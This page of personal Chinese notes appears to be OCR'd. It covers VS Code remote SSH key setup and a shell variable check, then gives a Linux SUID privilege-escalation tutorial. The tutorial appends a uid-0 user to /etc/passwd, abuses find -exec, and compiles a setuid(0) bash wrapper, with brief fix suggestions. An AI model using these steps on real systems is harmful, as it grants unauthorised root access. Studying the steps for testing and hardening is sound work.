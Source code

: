 6. win10环境，使用 vscode remote ssh 远程连接服务器，免密连接

   cmd, ssh-keygen -t rsa,                             生成秘钥
   将win10 上的 用户/user01/.ssh/id_rsa.pub 上传到服务器的 /root/.ssh/  目录下，
       cat id_rsa.pub  >> authorized_keys

   本来，试讲win10上面的资料mount 挂载到虚拟机 centos7mini 上去的。 现在发现，用远程服务器可以同样实现，大功告成。 不过这样的话，虽然本地资源压力减轻，但是安全性就没了。

7. [ ! -n "$JAVA_HOME" ] && echo 'is null'             判断一个变量是否为空

8. 条理清晰，有理有据

9. suid 提权示例，
   1. 比如cp
   find / -type f -perm -u=s 2>/dev/null               搜索具有suid权限的可执行文件，
   chmod u+s /bin/cp                                   root用户给cp一个权限，做测试
   ll /usr/bin/cp

   cp /etc/passwd passwd                               普通用户，开始操作
   openssl passwd -1 -salt l01 123456
   echo 'l01:$1$l01$.a5onqEPLUMqiokxhSrBy.:0:0::/root/:/bin/bash' >>passwd          按照passwd 文件格式来添加一条
   cp passwd  /etc/passwd                               将passwd 复制回去，

   su - l01                                             接下来，就可以切换到新建的用户了， 并且l01用户权限为root， 已提权
   id                                                   能看到uid, gid, uid=0(root) gid=0(root) groups=0(root)
   cat /etc/passwd | tail -1
   同理，awk， sed这类具有写文件权限的命令以suid权限，都可以造成提权
   2. find suid 给find提权后，可以以 exec 参数，以root权限执行任意命令
   chmod u+s /bin/find                                  先给一个权限， 做测试
   find ./ -name "passwd" -exec "id" \;                 find ./ -type f -name "nohup" -exec cp '{}' /etc/passwd \;可执行任一命令
   执行，vim 再打开文件就可以编辑平常不能编辑的文件

   **修复建议： 将cp的 suid去除**
   3. 给vim 授权限后， 一切皆文件，好开始接龙吧
   4. 二进制程序权限滥用特权提升
   cat > sudo.c <<eof
   #include <stdio.h>
   #include <sys/types.h>
   #include <unistd.h>
   int main(void)
   {
       setuid(0);
       system("/bin/bash");
       return 0;
   }
   gcc -o sudo sudo.c      chmod +s sudo
   ./sudo                                                普通用户执行二进制文件， 就可以获取到root权限

   **修复建议： 取消suid文件suid权限**
   **合理配置nfs权限，禁止写入**
   **清除历史记录，不直接在命令行中使用命令**
   5. 内核提权，
   **修复建议， 升级内核版本，使用最新版的ubuntu**
   6. lxc提权，
   7. docker提权
